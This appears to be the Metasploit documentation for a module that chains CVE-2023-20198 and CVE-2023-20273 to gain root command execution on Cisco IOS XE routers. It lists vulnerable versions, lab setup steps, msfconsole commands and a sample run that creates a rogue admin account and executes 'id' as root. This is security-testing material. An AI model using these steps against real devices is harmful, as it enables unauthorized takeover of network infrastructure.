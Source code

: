 ## Vulnerable Application
This module leverages both CVE-2023-20198 and CVE-2023-20273 against vulnerable instances of Cisco IOS XE
devices which have the Web UI exposed. An attacker can execute arbitrary OS commands with root privileges.

This module leverages CVE-2023-20198 to create a new admin user, then authenticating as this user,
CVE-2023-20273 is leveraged for OS command injection. The output of the command is written to a file and read
back via the webserver. Finally the output file is deleted and the admin user is removed.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
    can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the
    [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows) to install GNS3 and the
    [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000v instance as a QEMU device.
  * The CSR1000v device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
    to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
    be accessible to a remote attacker.
  * When the virtual router has booted up, you must enable the vulnerable WebUI component. From a serial console on
    the device:
    ```
    Router>enable
    Router#config
    Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "id"`
5. `run`

## Options

### CMD
A Linux OS command to execute on the target device, e.g. `id`

### CISCO_ADMIN_USERNAME
The username of an admin account. If not set, CVE-2023-20198 is leveraged to first create a new admin account and then
the new account is then removed after the module completes.

### CISCO_ADMIN_PASSWORD
The password of an admin account. If not set, CVE-2023-20198 is leveraged to create a new admin password.

### REMOVE_OUTPUT_TIMEOUT
The maximum timeout (in seconds) to wait when trying to removing the commands output file. The output file
can be locked preventing deleting upon the first attempt, so the module will try again if needed.

## Scenarios

```
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CISCO_ADMIN_PASSWORD                    no        The password of an admin account. If not set, CVE-2023-20198 is leveraged to c
                                                     reate a new admin password.
   CISCO_ADMIN_USERNAME                    no        The username of an admin account. If not set, CVE-2023-20198 is leveraged to c
                                                     reate a new admin account.
   CMD                    id               yes       The OS command to execute.
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   REMOVE_OUTPUT_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to removing the commands
                                                     output file.
   RHOSTS                                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                                     cs/using-metasploit.html
   RPORT                  443              yes       The target port (TCP)
   SSL                    true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set rhosts 10.5.135.193
rhosts => 10.5.135.193
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set verbose true
verbose => true
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run
[*] Running module against 10.5.135.193

[*] Created privilege 15 user 'rfojGrqA' with password 'ixnXyFlw'
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0

[*] Removing output file '/var/www/fNrmuBOf'
[*] Removing user 'rfojGrqA'
[*] Auxiliary module execution completed

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > 
```